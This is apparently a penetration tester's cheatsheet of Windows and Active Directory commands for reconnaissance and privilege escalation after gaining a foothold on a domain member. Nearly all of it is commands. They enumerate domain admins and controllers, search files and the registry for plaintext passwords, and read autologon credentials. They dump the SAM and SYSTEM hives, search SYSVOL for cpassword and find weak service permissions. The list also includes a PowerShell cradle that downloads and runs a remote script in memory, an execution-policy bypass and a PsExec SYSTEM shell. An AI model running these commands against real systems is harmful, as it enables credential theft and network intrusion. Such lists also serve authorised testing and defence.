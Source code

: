 # This cheatsheet is for recon of a windows environnement starting with a simple computer member of the domain.

#get iP configuration
ipconfig /all 

#check existing route

route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex

#check local firewall state

netsh firewall show state
Get-NetFirewallProfile


#check Arp Cache 

arp -a
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State


#Get account Information

whoami /all

#get information about the system

systeminfo

#Check Update :

wmic qfe list brief
wmic qfe get Caption,Description,HotFixID,InstalledOn

#Check Hosts file 

get-content C:\WINDOWS\System32\drivers\etc\hosts

#check privilege 

whoami /priv

#get all local user

net user
Get-LocalUser | ft Name,Enabled,LastLogon

#get all local group

net localgroup
Get-LocalGroup | ft Name


#check member of local group

net localgroup administrateurs

#get member of domain admin groups

net group /domain "admins du domaine"
net group /domain "Domain admins"

#get intel of a specific domain User 

net user /DOMAIN administrator

#Identify all domain controller 

[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers

#Identify DnS server, it many case in WIndow Env it's a domain Controller

Get-DnsClientServerAddress -AddressFamily IPv4 | ft

#check password in file ;)

findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
findstr /si password *.conf


#check password in all files

findstr /spin "password" *.*


#Get Applied GPO  

gpresult /h GPO.html /f

#identify network share 

net use

#list local share

Get-SmbShare
net share

#Get all share of remote server

net view \\servernameorIP

#Check auto logon credential

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"


#Acces SAM

%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system


#Check Right to identify leverafe for privesc

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 


icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 


#List ScheduledTask

schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State,

#List service where the executable files is not in C:\Windows 

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" } | select PathName,DisplayName,Name

#List Unquoted service Path

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
#check password in regigistre
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s 

#PowerShell One-Line Script Execution in Memory

IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

#powershell bypass execution policy

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


#Powershell identify server 2003 in the current domain 

([adsisearcher]'(OperatingSystem=Windows Server 2003*)').FindAll()

#Powershell identify all Window in the current 

([adsisearcher]'(OperatingSystem=Windows*)').FindAll()

#Psexec to run a shell as system

 PSEXEC -i -s -d CMD

#Check cpassword in SYSVOL to identify 
findstr /si cpassword *.xml

#dump sam 

reg save hklm\sam sam.hiv
reg save hklm\system sys.hiv
#some other interessing files
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
